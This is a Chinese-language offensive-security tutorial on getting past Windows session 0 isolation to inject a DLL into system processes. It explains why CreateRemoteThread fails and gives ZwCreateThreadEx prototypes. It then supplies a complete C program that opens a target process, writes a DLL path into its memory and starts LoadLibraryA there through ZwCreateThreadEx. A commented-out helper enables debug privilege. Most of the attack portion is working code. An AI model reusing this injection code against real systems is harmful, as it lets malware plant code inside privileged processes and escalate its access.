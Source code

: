 # Bypass Session 0 Injection

## 简介

在使用传统的进程注入技术的过程中，可以向普通用户用户进程注入shellcode或dll，那么如果我们想更进一步注入到系统进程内，通常会失败，这是由于session 0隔离的缘故，接下来本文会介绍如何突破session 0隔离进行对系统进程的注入。

## ZwCreateThreadEx函数

通过调用CreateRemoteThread创建远程线程在NT内核6.0以前是没有什么问题，但在6.0以后引入了session隔离机制，在创建一个线程时先挂起，然后判断是否运行在所在会话层再决定是否恢复运行。

ZwCreateThreadEx函数比CreateRemoteThread函数更接近内核，CreateRemoteThread最终也是调用ZwCreateThreadEx函数来创建线程的，通过前人的研究发现，通过对CreateRemoteThread逆向研究发现，在内部调用ZwCreateThreadEx会把第七个参数创建标识设置为1，这样会使创建的线程挂起，这也是注入失败的原因。

所以如果想要创建的线程成功执行我们需要将第七个参数指定为0，这样我们就能在创建线程后让他执行。

ZwCreateThreadEx函数原型在不同位数的系统中有细微差别。

![](../.gitbook/assets/image%20%2823%29.png)

```text
#ifdef _WIN64
	typedef DWORD(WINAPI *typedef_ZwCreateThreadEx)(
		PHANDLE ThreadHandle,
		ACCESS_MASK DesiredAccess,
		LPVOID ObjectAttributes,
		HANDLE ProcessHandle,
		LPTHREAD_START_ROUTINE lpStartAddress,
		LPVOID lpParameter,
		ULONG CreateThreadFlags,
		SIZE_T ZeroBits,
		SIZE_T StackSize,
		SIZE_T MaximumStackSize,
		LPVOID pUnkown);
#else
	typedef DWORD(WINAPI *typedef_ZwCreateThreadEx)(
		PHANDLE ThreadHandle,
		ACCESS_MASK DesiredAccess,
		LPVOID ObjectAttributes,
		HANDLE ProcessHandle,
		LPTHREAD_START_ROUTINE lpStartAddress,
		LPVOID lpParameter,
		BOOL CreateSuspended,
		DWORD dwStackSize,
		DWORD dw1,
		DWORD dw2,
		LPVOID pUnkown);
#endif
```

## 代码实现

该注入技术与经典WriteProcessMemory，CreateRemoteThread注入技术非常相似，只是把创建进程的函数从CreateRemoteThread换成了ZwCreateThreadEx。

```text
#include <Windows.h>
#include <stdio.h>

#ifdef _WIN64
typedef DWORD(WINAPI* typedef_ZwCreateThreadEx)(
	PHANDLE ThreadHandle,
	ACCESS_MASK DesiredAccess,
	LPVOID ObjectAttributes,
	HANDLE ProcessHandle,
	LPTHREAD_START_ROUTINE lpStartAddress,
	LPVOID lpParameter,
	ULONG CreateThreadFlags,
	SIZE_T ZeroBits,
	SIZE_T StackSize,
	SIZE_T MaximumStackSize,
	LPVOID pUnkown);
#else
typedef DWORD(WINAPI* typedef_ZwCreateThreadEx)(
	PHANDLE ThreadHandle,
	ACCESS_MASK DesiredAccess,
	LPVOID ObjectAttributes,
	HANDLE ProcessHandle,
	LPTHREAD_START_ROUTINE lpStartAddress,
	LPVOID lpParameter,
	BOOL CreateSuspended,
	DWORD dwStackSize,
	DWORD dw1,
	DWORD dw2,
	LPVOID pUnkown);
#endif

typedef DWORD(WINAPI* typedef_LoadLibraryA)(char* path);
/*
BOOL EnbalePrivileges(HANDLE hProcess, char* pszPrivilegesName)
{
	HANDLE hToken = NULL;
	LUID luidValue = { 0 };
	TOKEN_PRIVILEGES tokenPrivileges = { 0 };
	BOOL bRet = FALSE;

	bRet = OpenProcessToken(hProcess, TOKEN_ADJUST_PRIVILEGES, &hToken);

	bRet = LookupPrivilegeValue(NULL, pszPrivilegesName, &luidValue);

	tokenPrivileges.PrivilegeCount = 1;
	tokenPrivileges.Privileges[0].Luid = luidValue;
	tokenPrivileges.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
	bRet = AdjustTokenPrivileges(hToken, FALSE, &tokenPrivileges, 0, NULL, NULL);


	return TRUE;
}*/

int main(int argc, char* argv[]) {
	//EnbalePrivileges(GetCurrentProcess(), SE_DEBUG_NAME);

	char DllPath[] = "C:\\Users\\Black Sheep\\source\\repos\\sesion0\\x64\\Debug\\TestDll.dll";

	HANDLE hRemoteThread;

	HANDLE hNtModule = GetModuleHandleA("ntdll.dll");

	HANDLE hKeModule = GetModuleHandleA("Kernel32.dll");

	typedef_ZwCreateThreadEx ZwCreateThreadEx = GetProcAddress(hNtModule, "ZwCreateThreadEx");

	typedef_LoadLibraryA myLoadLibraryA = GetProcAddress(hKeModule, "LoadLibraryA");

	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 1516);

	LPVOID lpBaseAddress = VirtualAllocEx(hProcess, NULL, sizeof(DllPath)+1, MEM_COMMIT, PAGE_READWRITE);

	WriteProcessMemory(hProcess, lpBaseAddress, DllPath, sizeof(DllPath), 0);

	ZwCreateThreadEx(&hRemoteThread, PROCESS_ALL_ACCESS, NULL, hProcess, (LPTHREAD_START_ROUTINE)myLoadLibraryA, lpBaseAddress, 0, 0, 0, 0, NULL);

	CloseHandle(hRemoteThread);
	CloseHandle(hProcess);
	FreeLibrary(hKeModule);
	FreeLibrary(hNtModule);
	return 0;

}
```

![](../.gitbook/assets/image%20%283%29.png)

* github:[https://github.com/idiotc4t/sesion0](https://github.com/idiotc4t/sesion0)

## LINKS

《windows黑客编程》

{% embed url="https://kb.firedaemon.com/support/solutions/articles/4000086228-what-is-session-0-isolation-what-do-i-need-to-know-about-it-" %}



